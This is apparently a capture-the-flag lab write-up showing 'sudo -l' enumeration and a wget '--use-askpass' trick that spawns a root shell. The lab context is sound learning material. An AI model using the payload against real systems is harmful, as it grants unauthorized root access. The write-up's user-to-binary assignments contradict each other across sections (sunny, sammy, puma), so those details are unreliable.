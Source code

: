 ### 3.1 - What is the full path of the binary that user sunny can run with sudo privileges?

Executing `sudo -l` command we can commands that user puma can execute with sudo privileges:

<div align="left"><figure><img src="../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/root/troll
{% endhint %}

### 3.2 - What is the complete path of the binary that user sammy can run with sudo privileges?

Same thing, `sudo -l` command and it's done!

<div align="left"><figure><img src="../.gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/usr/bin/wget
{% endhint %}

### 3.3 - Submit the flag located in root's home directory.

The previous two tasks are the prelude to privilege escalation, let's checking them!

#### sammy

* /root/troll

Not knowing "troll" which I imagine is an ironic name, we focus on the usual wget.

#### sunny

* /usr/bin/wget

As always, the wget bible has a solution for privilege escalation with sudo.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```
